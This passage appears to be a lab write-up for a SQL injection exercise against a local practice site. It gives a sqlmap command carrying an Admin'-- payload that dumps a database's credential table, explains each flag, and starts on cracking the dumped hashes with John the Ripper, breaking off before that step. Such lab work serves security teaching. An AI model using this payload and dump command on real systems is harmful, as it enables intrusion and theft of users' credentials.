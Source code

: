 Use script into terminal:
```sh
py sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password=" --dump -D sqllab_users -T credential --batch --output-dir=./sqlmap_output
```

Check output in `sqlmap_output` folder.

![](./images_2/Screenshot_12.png)


Check table `credential` in `sqllab_users` database.

![](./images_2/Screenshot_13.png)

You can see the password of all database users in `sqlmap_output` folder or `credential` table.

Detailed explanation:
- `-u "http://localhost:3128/unsafe_home.php?username=Admin'--&Password="`: Specifies the target URL with a potential injection point.
- `--dump`: Instructs sqlmap to retrieve and output the contents of the specified table.
- `-D sqllab_users`: Specifies the target database name.
- `-T credential`: Specifies the target table name within the database.
- `--batch`: Runs sqlmap in non-interactive mode, automatically choosing default actions without user input.
- `--output-dir=./sqlmap_output`: Directs sqlmap to save all output files in the specified directory.

This command focuses on extracting the contents of the 'credential' table from the 'sqllab_users' database, which likely contains user login information. The `--batch` option automates the process, and the output is saved to a specific directory for easy access.

While the question mentions John the Ripper, the sqlmap command doesn't directly use it. To use John the Ripper with the extracted passwords:

1. Extract the password hashes from the sqlmap output.
2. Save these hashes in a file (e.g., `hashes.txt`).
3. Run John the Ripper on this file:
